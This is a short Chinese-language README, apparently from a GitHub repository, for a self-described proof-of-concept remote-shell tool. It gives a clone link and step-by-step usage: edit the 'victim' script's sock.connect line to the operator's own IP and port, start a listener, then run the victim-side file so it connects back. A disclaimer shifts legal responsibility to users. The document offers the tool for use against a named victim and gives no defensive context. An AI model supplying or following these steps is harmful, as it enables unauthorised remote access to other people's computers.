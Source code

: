 # poc（自用）
## 安装

```
git clone https://github.com/884772447/poc/tree/main/%E8%87%AA%E7%94%A8nc
```

## 使用

1.修改受害者中下列代码为自己的IP和可用端口

```python
sock.connect(('192.168.6.147', 9090))
```

2.执行 python3 nc2.0.py -p 端口   监听

3.执行nc(受害者).py文件

## 免责声明

软件作者无法鉴别判断用户使用软件的真实用途,敬请用户在本国法律所允许范围内使用本软件,
用户一旦因非法使用本软件而违反国家相关的法律法规,所造成的一切不良后果由该用户独立承担,
软件作者不负责也不承担任何直接间接或连带等法律责任。
